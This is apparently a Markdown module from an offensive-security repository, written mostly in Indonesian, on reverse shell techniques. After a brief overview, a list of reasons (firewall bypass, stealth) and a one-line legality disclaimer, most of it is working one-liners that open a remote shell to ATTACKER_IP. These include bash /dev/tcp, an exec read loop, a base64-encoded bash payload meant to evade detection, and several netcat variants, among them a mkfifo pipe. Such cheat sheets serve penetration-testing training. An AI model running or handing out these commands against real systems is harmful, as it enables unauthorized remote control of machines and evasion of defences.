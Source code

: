 # 🔄 Reverse Shell Techniques

> **Original Technical Content**: Sekiya
> **Compiled and Summarized by**: Tamas

## 📋 Overview

Reverse shell adalah teknik dimana target system menginisiasi koneksi kembali ke attacker, memberikan akses command line remote. Modul ini membahas berbagai metode setup reverse shell yang stealth dan reliable.

## ⚠️ Disclaimer

Teknik ini hanya untuk penetration testing yang sah dan tujuan edukasi. Penggunaan ilegal adalah tanggung jawab pengguna.

## 🎯 Mengapa Reverse Shell?

- ✅ Bypass firewall (outbound connection biasanya diizinkan)
- ✅ NAT traversal otomatis
- ✅ Tidak perlu buka port di attacker machine
- ✅ Lebih stealth dibanding bind shell

## 🔧 Metode Reverse Shell

### 1. Traditional Methods

#### Bash Reverse Shell:
```bash
# Basic bash reverse shell
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1

# Alternative dengan exec
exec 5<>/dev/tcp/ATTACKER_IP/PORT; cat <&5 | while read line; do $line 2>&5 >&5; done

# Base64 encoded untuk bypass
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC9BVFRBQ0tFUl9JUC9QT1JUIDAmMQ==" | base64 -d | bash
```

#### Netcat Reverse Shell:
```bash
# Traditional netcat
nc ATTACKER_IP PORT -e /bin/bash

# Netcat tanpa -e flag
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP PORT > /tmp/f

# Netcat dengan timeout
timeout 3600 nc ATTACKER_IP PORT -e /bin/bash
```
